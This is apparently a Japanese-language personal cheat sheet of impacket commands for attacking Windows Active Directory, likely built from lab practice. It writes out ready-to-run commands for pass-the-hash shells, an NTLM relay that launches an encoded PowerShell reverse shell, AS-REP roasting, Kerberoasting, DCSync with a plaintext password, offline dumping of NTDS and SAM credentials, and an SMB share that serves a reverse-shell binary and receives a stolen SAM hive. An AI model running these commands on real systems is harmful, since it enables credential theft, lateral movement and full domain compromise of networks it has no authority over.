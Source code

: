 # impacket

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

9. SMBサーバとして起動する。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```  
以下をKaliで行うと、ターゲットWindows上で//<kali_IP>/evil/hoge.exeとしてreverseshellを実行できる。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support evil $PWD
```

Kali側でサーバとして待ち受けてからWindwos側で以下みたいなコマンドをやるとファイルをコピーして送信できる。
```
copy C:\Users\THMBackup\sam.hive \\10.13.58.5\public\ \\10.13.58.5\public\ 
```

10. SAMやSYSTEMからダンプしたハッシュをもとに、kaliからDC等のマシンへpsexecでシェルをとれる。ターゲットがwin-rmを許可していないときとかはこっちで接続。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.127.140
```